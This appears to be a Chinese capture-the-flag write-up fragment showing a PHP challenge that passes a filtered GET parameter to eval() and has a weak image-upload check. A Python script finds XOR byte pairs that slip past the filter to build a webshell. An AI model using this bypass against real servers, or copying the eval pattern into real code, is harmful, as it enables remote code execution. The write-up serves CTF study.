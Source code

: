 ```php
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

很明显分为两部分，第一部分是利用get_the_flag()这个函数，而利用这个函数就要通过$hhh来构造一个webshell。

题目对$hhh作了很多限制，长度不大于18，不包含大部分可见字符（仍然可以利用``^``），并且使用字符数量种类不能超过12种。

可以利用异或操作,贴一种筛选脚本

```python
import string
pt= string.printable
a= map(lambda x:x.encode("hex"),list(pt))
#print list(pt)
def findxor(ch):
    ret = []
    for i in range(256):
        for j in range(256):
            if (chr(i) not in list(pt)) & (chr(j) not in list(pt)):
                c = i^j
                if chr(c)==ch:
                    tmp=[]
                    tmp.append(str(hex(i)[2:])+"^"+str(hex(j))[2:])
                    ret.append(tmp)
    return ret

print findxor('_')
print findxor('G')
print findxor('E')
print findxor('T')
```
